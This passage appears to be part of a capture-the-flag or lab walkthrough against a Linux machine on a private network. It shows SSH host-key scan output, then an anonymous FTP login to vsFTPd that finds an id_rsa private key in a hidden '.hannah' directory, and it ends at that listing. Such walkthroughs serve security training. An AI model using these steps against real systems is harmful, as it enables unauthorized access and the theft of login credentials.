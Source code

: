 | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNXNPAPJkUYF4+uu955+0RpMZKriG9olCwtkPB3j5XbiiB+B7WEVv331ittcLxibSBWqV2OO328ThebB2YF9qvI=

|   256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP5tk066endR9DMYxXzxhixx6c8cQ0HjGvYbtL8Lgv91

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

#Linux target

FTP is open with anonymous FTP login

ftp 192.168.52.130

Connected to 192.168.52.130.

220 (vsFTPd 3.0.3)

Name (192.168.52.130:kali): anonymous

331 Please specify the password.

Password: 

230 Login successful.

Remote system type is UNIX.

Using binary mode to transfer files.

ftp> 

Now to look for files

ftp> ls -alt

229 Entering Extended Passive Mode (|||60483|)

150 Here comes the directory listing.

drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..

drwxr-xr-x    3 0        115          4096 Aug 06  2020 .

drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah

226 Directory send OK.

ftp> cd .hannah

250 Directory successfully changed.

ftp> ls -alt

229 Entering Extended Passive Mode (|||22190|)

150 Here comes the directory listing.

drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..

drwxr-xr-x    2 0        0            4096 Aug 06  2020 .

-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
